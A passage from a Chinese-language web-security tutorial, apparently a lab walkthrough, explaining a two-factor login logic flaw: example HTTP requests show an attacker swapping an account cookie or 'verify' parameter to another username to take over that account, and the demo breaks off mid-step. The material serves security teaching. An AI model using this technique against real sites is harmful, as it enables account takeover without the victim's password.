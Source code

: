 ### 逻辑缺陷

在一些情况下我们可能会遇到在用户完成初始登录步骤后，网站无法充分验证同一用户是否正在完成第二步，例如：用户在第一步中使用其正常凭据登录

```plain
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

在进入登录过程的第二步之前他们将被分配一个与其帐户相关的 cookie

```plain
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```

提交验证码时请求使用此 cookie 来确定用户试图访问的帐户

```plain
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

在这种情况下攻击者可以使用自己的凭据登录，但在提交验证码时会将帐户 cookie 的值更改为任意用户名，如果攻击者能够强行使用验证码，这将是极其危险的，因为这将允许他们完全基于用户名登录任意用户的帐户，他们甚至不需要知道用户的密码

```plain
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

下面我们通过一个示例进行演示说明：  
首先登录自己的账户熟悉 2FA 的验证过程，可以看到"POST /login2"请求中的 verify 参数用于确定正在访问哪个用户的帐户  
[![](assets/1705979483-c07aa4315495ce0992384464881a308b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121192801-22e9d674-b850-1.png)  
随后我们将上述请求发送到 repeat 模块并将 verify 参数更改为 carlos 后发送请求，发现可以为 Carlos 生成临时 2FA 代码  